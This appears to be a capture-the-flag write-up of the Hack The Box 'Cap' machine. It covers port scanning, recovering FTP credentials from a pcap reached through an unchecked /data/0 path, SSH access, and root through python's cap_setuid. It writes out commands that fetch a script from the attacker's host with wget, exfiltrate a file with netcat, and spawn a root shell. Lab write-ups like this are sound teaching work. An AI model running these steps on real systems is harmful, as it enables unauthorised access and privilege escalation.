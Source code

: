 # Writeup for [Cap](https://app.hackthebox.eu/machines/Cap) from [Hack The Box](https://app.hackthebox.eu/)

## Table of Contents

<!-- MarkdownTOC -->

- [Machine Information](#machine-information)
- [Information Gathering and Enumeration](#information-gathering-and-enumeration)
	- [FTP](#ftp)
	- [HTTP Server](#http-server)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)

<!-- /MarkdownTOC -->


## Machine Information

* OS		 : Linux
* Difficulty : Easy
* Points	 : 20
* IP		 : 10.10.10.245

## Information Gathering and Enumeration

As usual we start things off with a port scan on the box.

```bash
nmap -sCV -oN nmap/cap -vv 10.10.10.245
```

We can see that there are 3 ports open, FTP on 21, SSH on 22, and HTTP on 80.

![nmap scan](./img/nmap.png)

The version of SSH seem up to date so we will be looking at FTP and HTTP for our enumeration.

### FTP
First I always try to do anonymous login on FTP by supplying `anonymous` as the username and a blank password.

```bash
ftp 10.10.10.245
```

![ftp-fail](./img/ftp-fail.png)

Looks like anonymous login is disabled and we can now start enumerating the HTTP server

### HTTP Server

Before we start any manual enumeration on the web app, let's start some background recon while we work. I'm going to run `gobuster` on the web app to potentially grab directories and files.

It is always good to check what type of website this is by appending `/index.extension` to the address ( `http://10.10.10.245/index.php` or `http://10.10.10.245/index.html`) so we can use this for `gobuster`. I tried some basic extensions such as `php`, `html`, and `asp` but did not get anything, so we're just going to have to run `gobuster` without the extensions flag (`-x`).

```bash
gobuster dir -u 10.10.10.245 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -t 20 -o gobuster/raft-small-root.log 
```

Now that we have `gobuster` running in the background, it's time to poke at this manually.

![web](./img/web.png)

Now looking at the page we can see some information. We can see that we are currently logged in as `nathan` meaning that may be a potential user on the box ( even though this is static on the page, it's still some good info to keep in mind).

We can also see that we have a few entries on the dashboard that goes to a page. We can see the page/directory it's linked to from the bottom left/right corner of the screen.

Going to the `/ip` and `/netstat` page, we can see a page that looks like the output of `ifconfig` and `netstat` command on linux. I tried to dig some information from there but got nothing really useful.

On the other hand, `/capture` loads slowly and then redirects us to `/data/` with a number appended to the end of it. I find the slow loading part quite odd since the page loads quickly on `/ip` and `/netstat`, so I figured either there's something wrong with my connection at that time or it is a functionality on the web page.

After we get redirected to `/data/[number]`, we can see some info and able to download a `pcap` file.

![pcap](./img/pcap.png)

We get that file, and inspect it with `wireshark`. I'm going to use the pcap file that I downloaded when solving this box the first time so I can explain how this web app works. 

Open up wireshark and let's follow this TCP stream, and this is what I got.

![1-pcap](./img/1-pcap.png)

This pcap file is from `gobuster` that we were running, at least when I solved this box initially. This means that `/capture` page must have been catching requests, probably with `tcpdump` or something of the sorts and outputs it to a pcap file. The slow loading part must be when the page is actually catching those requests since this pcap file only shows a few entries from gobuster of the \~40000 entries from the wordlist.

I then tried to look for potential exploits for this but sadly it was a rabbit hole. After around 40 minutes of research on pcap exploitation, I just figured that this may not be the vector to get user and I gave up on this.

Being tired from that pcap research and the fact that this is my first box after a year break from security stuff, I was pretty rusty and searched for some hints in the [forums](https://forum.hackthebox.eu/). Then I saw a super useful hint that says something like **"1 is not always the first number"** or something like that, and that I realized that I never actually tried to search numbers below 1 on the `/data/` page, I always tried to increment it by 1. Being a programmer myself I was disappointed that I actually didn't think of this. Well we live and we learn. 

Navigating to `/data/0`, we the same page with some data and a downloadable part. Download the pcap and inspecting it with wireshark, we can see the FTP credentials clearly in plain text.

![0-pcap](./img/0-pcap.png)

To get a better view on it, we can always right click it and follow the TCP stream for better output.

![0-pcap-stream](./img/0-pcap-stream.png)

## Exploitation

Now that we have credentials for FTP, let's try to login again.

![ftp](./img/ftp.png)

We land directly on the home page, please ignore that `linux-exploit-suggester.sh` and the **ELF** file since that should not be part of the box.
>**ALWAYS clean up your tracks after solving a box!**

We can also try to SSH in as nathan with these credentials that we found, and we get a shell as `nathan`.

```bash
ssh nathan@10.10.10.245
```

## Privilege Escalation

Upon landing on the box, we should **ALWAYS** check for `sudo` permission with `sudo -l`. Sadly we are not allowed to run sudo on this box as `nathan`.

Now, let's open another SSH session and run [linpeas](https://github.com/carlospolop/PEASS-ng) on the box while we try to enumerate manually for PE vectors.

Open up a python3 simple web server on the directory with linpeas on our attacker box.
```bash
python3 -m http.server
```

And we retrieve the script to the victim box. I usually cd to a more hidden directory to download this something like `/dev/shm`.
```bash
cd /dev/shm && wget http://10.10.14.63:8000/linpeas.sh
```

While linpeas is running, let's check out the functionality of that web server by going to `/var/www/html`. Looks like it's a python application. I'm going to copy that file to my local box so I can inspect it further and do some tests if necessary.

This is quite a neat trick I use to copy binaries and other files

Setup a listener on your local attacker box that will redirect output to a file
```bash
nc -lnvp 9001 > app.py
```

cat the file and pipe that over to netcat
```bash
cat app.py | nc 10.10.14.63 9001
```

![file-transfer](./img/file-transfer.png)
>**please note that this method will not give any output if the transfer is complete and we must interrupt it with `Ctrl+C`. So always check the sum of both files, I use md5sum**

Inspecting the file in a text editor, I found a potentially vulnerable block of code.

![vector](./img/vector.png)

It is running `os.setuid(0)` that effectively gives us root permission. But we can see that this file is owned by `nathan` on the box, we can verify that by running `ls -l` on `/var/www/html/app.py`.

And since `nathan` is not allowed to run **sudo**, this maybe either `SUID` or something related to `Capabalities`. We can check `SUID` binaries on the box by running;
```bash
find / -perm 4755 2>/dev/null
```

![suid](./img/suid.png)

We see no python on the SUID output, meaning that python might be running with the `cap_setuid` capability. Read more about capabilities [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)


we can verify this by running `getcap` and we should see python having this capability.
```bash
getcap -r / 2>/dev/null
```

![getcap](./img/getcap.png)

Linpeas also verifies this.

![linpeas.sh](./img/linpeas.sh.png)

Now that we know we have this capability to change our UID, we can just pop a root shell

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![root](./img/root.png)